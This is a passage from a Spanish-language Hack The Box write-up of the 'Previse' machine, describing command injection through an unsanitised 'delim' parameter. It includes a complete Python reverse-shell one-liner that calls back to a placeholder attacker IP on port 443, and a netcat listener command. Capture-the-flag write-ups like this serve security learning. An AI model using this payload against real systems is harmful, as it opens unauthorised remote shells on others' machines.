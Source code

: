  - Identificamos el campo vulnerable que previamente habíamos encontrado (```delim```)

<p align="center">
<img src="/assets/images/htb-writeup-previse/img21.png">
</p>

 - Como vimos antes, este parametro no está bien sanitizado en el código, por lo que podemos inyectar una instrucción usando un ```;``` de la siguiente manera:

<p align="center">
<img src="/assets/images/htb-writeup-previse/img22.png">
</p>

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[TU_IP]",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
De esta manera nos podremos enviar una shell a nuestro equípo por el puerto 443, así que nos ponemos en escucha con ```netcat``` antes de enviar la respuesta

```bash
~$> nc -nlvp 443
```
Damos en forward
